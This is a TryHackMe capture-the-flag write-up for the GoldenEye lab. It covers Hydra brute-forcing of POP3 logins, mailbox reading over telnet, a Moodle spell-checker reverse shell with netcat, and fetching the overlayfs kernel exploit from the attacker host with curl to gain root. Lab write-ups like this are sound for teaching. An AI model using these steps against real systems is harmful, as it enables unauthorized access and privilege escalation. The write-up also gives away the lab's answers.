






# Golden Eye

**Date:** 26, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/goldeneye) to go to the TryHackMe room.

## Enumeration

### How many ports are open?
- **Answer:** 4
- **Steps to Reproduce:** 

```bash
$ nmap -sC -sV -p- 10.10.251.158 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 13:25 IST

Host is up (0.15s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP UIDL AUTH-RESP-CODE USER PIPELINING STLS RESP-CODES SASL(PLAIN) CAPA
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 591.22 seconds
```

### Take a look on the website, take a dive into the source code too and remember to inspect all scripts!




### Who needs to make sure they update their default password?
- **Answer:** Boris
- **Steps to Reproduce:** In `terminal.js`:

```js
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//
```

### What's their password?
- **Answer:** InvincibleHack3r
- **Steps to Reproduce:** 

```
- In cyberchef, use From HTML Entity:

&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

InvincibleHack3r
```

### Now go use those credentials and login to a part of the site.



---

## It's Mail Time

### Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable? 
- **Answer:** No
- **Steps to Reproduce:** 

```bash
$ telnet 10.10.251.158 55007
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System

USER Boris
+OK
PASS InvincibleHack3r

-ERR [AUTH] Authentication failed.
-ERR Unknown command.

$ telnet 10.10.251.158 25
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
220 ubuntu GoldentEye SMTP Electronic-Mail agent

VRFY Boris
252 2.0.0 Boris
AUTH PLAIN
503 5.5.1 Error: authentication not enabled
AUTH LOGIN PLAIN
503 5.5.1 Error: authentication not enabled
```


### If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? What's their new password?
- Brute force the password of `Boris`:

```bash
$ hydra -l Boris -P /usr/share/wordlists/rockyou.txt -s 55007 -f 10.10.251.158 pop3 -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 13:54:07
[..snip..]

[55007][pop3] host: 10.10.251.158   login: Boris   password: REDACTED
[STATUS] attack finished for 10.10.251.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

- Brute force the password of `Natalya`:

```bash
$ hydra -l Natalya -P /usr/share/wordlists/fasttrack.txt -s 55007 -f 10.10.251.158 pop3 -V

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 14:15:59
[..snip..]

[55007][pop3] host: 10.10.251.158   login: Natalya   password: REDACTED
[STATUS] attack finished for 10.10.251.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### Inspect port 55007, what services is configured to use this port?
- **Answer:** telnet
- **Steps to Reproduce:** We can connect to this port using `telnet`

### What can you find on this service?
- **Answer:** emails
- **Steps to Reproduce:** 

- Using Natalya's credentials:

```bash
$ telnet 10.10.251.158 55007
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER Natalya
+OK
PASS REDACTED

+OK Logged in.
-ERR Unknown command: 
STAT
+OK 2 1679
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: REDACTED

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts. 
```

- Using Boris' credentials:

```bash
$ telnet 10.10.251.158 55007
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER Boris
+OK
PASS REDACTED
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id 4B9F4454B1
        for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.
```

### What user can break Boris' codes?
- **Answer:** Natalya

### Using the users you found on this service, find other users passwords

```
username: xenia
password: REDACTED
```

### Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.
- Too long and boring!!

---

## GoldenEye Operators Training

### Try using the credentials you found earlier. Which user can you login as?
- **Answer:** xenia



### Have a poke around the site. What other user can you find?
- **Answer:** Doak

### What was this users password?
- Using Hydra over pop3:

```bash
$ hydra -l Doak -P /usr/share/wordlists/fasttrack.txt -s 55007 -f 10.10.251.158 pop3 -VHydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 14:42:49
[..snip..]
[55007][pop3] host: 10.10.251.158   login: Doak   password: REDACTED
[STATUS] attack finished for 10.10.251.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-26 14:45:51
```

### Use this users credentials to go through all the services you have found to reveal more emails.
- We can find doak's username and password

```bash
$  telnet 10.10.251.158 55007
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER Doak
+OK
PASS REDACTED

+OK Logged in.
-ERR Unknown command: 
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: REDACTED

.
```

### What is the next user you can find from doak?
- **Answer:** dr_doak

### What is this users password?

```bash
username: dr_doak
password: REDACTED
```

### Take a look at their files on the moodle (severnaya-station.com)
- There is a file name `s3cret.txt` - for James

### Download the attachments and see if there are any hidden messages inside them?

```bash
$ cat s3cret.txt 
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

- Download the jpg image. Check for meta data:

```bash
Exif
====
+-------------------------+---------------------------------------------------+
| key                     | value                                             |
+-------------------------+---------------------------------------------------+
| SourceFile              | /root/Desktop/CTF/TryHackMe/GoldenEye/for-007.jpg |
| ExifToolVersion         | 12.16                                             |
| FileName                | for-007.jpg                                       |
| Directory               | /root/Desktop/CTF/TryHackMe/GoldenEye             |
| FileSize                | 15 KiB                                            |
| FileModifyDate          | 2018:04:25 06:10:02+05:30                         |
| FileAccessDate          | 2021:06:26 15:01:11+05:30                         |
| FileInodeChangeDate     | 2021:06:26 15:01:06+05:30                         |
| FilePermissions         | rw-r--r--                                         |
| FileType                | JPEG                                              |
| FileTypeExtension       | jpg                                               |
| MIMEType                | image/jpeg                                        |
| JFIFVersion             | 1.01                                              |
| XResolution             | 300                                               |
| YResolution             | 300                                               |
| ExifByteOrder           | Big-endian (Motorola, MM)                         |
| ImageDescription        | eFdpbnRlcjE5OTV4IQ==                              |
| Make                    | GoldenEye                                         |
| ResolutionUnit          | inches                                            |
| Software                | linux                                             |
| Artist                  | For James                                         |
| YCbCrPositioning        | Centered                                          |
| ExifVersion             | 0231                                              |
| ComponentsConfiguration | Y, Cb, Cr, -                                      |
| UserComment             | For 007                                           |
| FlashpixVersion         | 0100                                              |
| ImageWidth              | 313                                               |
| ImageHeight             | 212                                               |
| EncodingProcess         | Baseline DCT, Huffman coding                      |
| BitsPerSample           | 8                                                 |
| ColorComponents         | 3                                                 |
| YCbCrSubSampling        | YCbCr4:4:4 (1 1)                                  |
| ImageSize               | 313x212                                           |
| Megapixels              | 0.066                                             |
+-------------------------+---------------------------------------------------+
```

- Using base64 decode, we can find the passsword:

```bash
$ echo eFdpbnRlcjE5OTV4IQ== | base64 -d
REDACTED
```

### Using the information you found in the last task, login with the newly found user.
- We know that `admin` user is available. So, we'll use the recently found password to login as admin:



### Take a look into Aspell, the spell checker plugin.
- Change the spell engine (to PSpellShell)
- Change the Path to aspell (add your ip address)




### As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.
- Now we need to trigger the Spell checker
- Goto `Navigation -> Site Pages -> Stie Blogs -> Add new`
- Now `Toggle Spell Checker` to get a reverse shell:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.251.158] 36814
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ python -c 'import pty; pty.spawn("/bin/bash")'
<.9/plugins/spellchecker$ python -c 'import pty; pty.spawn("/bin/bash")'     
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ export term=XTERM
export term=XTERM
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ^Z
[1]+  Stopped                 nc -lvnp 1234

$ stty raw -echo; fg
nc -lvnp 1234

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 
```

---

## Privilege Escalation

### Enumerate the machine manually.
- Have a checklist and check them manually

### Whats the kernel version?
- **Answer:** 3.13.0-32-generic
- **Steps to Reproduce:** 

```bash
www-data@ubuntu:/$ uname -a
Linux ubuntu 3.13.0-32-generic
```

### Overlayfs Exploit

- This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:
    - Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
    - Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
    - Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
    - Make su on overlayfs world writable without changing the owner
    - Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.

### Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key! What development tools are installed on the machine?
- By checking inside `/usr/bin`, we can find `clang` is installed. So, we can use that to compile the code!
- Make sure to modify a line inside the exploit which contains `gcc` to `clang`: `lib = system("clang -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");`
- Transfer the exploit to the victim machine and compile it!


`cc` was also installed on the machine!! That was the hint - one letter change!


```bash
www-data@ubuntu:/dev/shm$ curl http://10.17.7.91:8000/overlayfs.c > ofs.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4984  100  4984    0     0  15869      0 --:--:-- --:--:-- --:--:-- 15923

www-data@ubuntu:/dev/shm$ clang ofs.c -o ofs                             
[..snip..]
5 warnings generated.
```

### Root flag

- Run the exploit to get root access:

```bash
www-data@ubuntu:/dev/shm$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library

# whoami
root

# cd /root
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo

# cat .flag.txt
Alec told me to place the codes here: 

REDACTED

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```



---

## References

- [Overlayfs Exploit](https://www.exploit-db.com/exploits/37292)
- [Pop3 Commands](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/)